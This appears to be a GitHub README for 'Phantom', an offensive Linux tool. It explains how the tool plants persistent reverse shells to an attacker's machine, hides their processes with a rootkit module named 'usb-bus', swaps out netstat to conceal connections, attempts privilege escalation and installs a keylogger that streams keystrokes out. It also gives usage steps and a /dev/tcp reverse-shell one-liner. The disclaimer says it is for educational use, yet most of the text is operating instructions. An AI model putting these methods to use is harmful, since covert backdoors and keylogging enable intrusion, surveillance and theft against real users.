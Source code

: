 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat.
If needed it attempts privilege escalation. Finally, it installs a keylogger. It only works on Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port (port1) and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every five minutes to the attacker's machine, but to a different port than the first one (port2). The reason for this is that this way you have more control of what to do with the backdoor shell, otherwise the same payload gets executed each time the target connects to your machine. It also creates a python3 server listening to a third port that is needed to transfer the files needed by the payload. If privilege escalation is attempted, it opens another ncat process. Lastly, it installs
a keylogger to the target's machine which sends keystrokes to a specified port (portk).

## Usage

```
phantom-init [ip=][port1=][port2=][portk=]
```

* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload
* portk: the port that listens for keystrokes

You have to somehow make the target connect to port1, i.e. bash -c 'bash &>/dev/tcp/ip/port1 <&1 &'
(ip and port1 are the ones specified above.)

## Files

* phantom-init: Creates the python3 server and an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
  * If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to port2 and then attempts privilege escalation. If it succeeds it moves to the next step.
  * If the user connecting is root and systemd is used, it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to the attacker's machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and systemd services (ps aux cannot find them this way). Finally, it creates a systemd service which executes, a script
  which send keystrokes to the attacker's machien (portk). If systemd is not used it does the same but with a crontab file and python shells. It then creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services/crontab use and the systemd services/crontab themselves. It is also persistent through reboots because the script which hides the pids inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system. It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)
  3.  Create a ncat process listening at portk. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close the ncat listening processes so all the connections get closed.
2.  Close phantom-firewall.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@protonmail.com
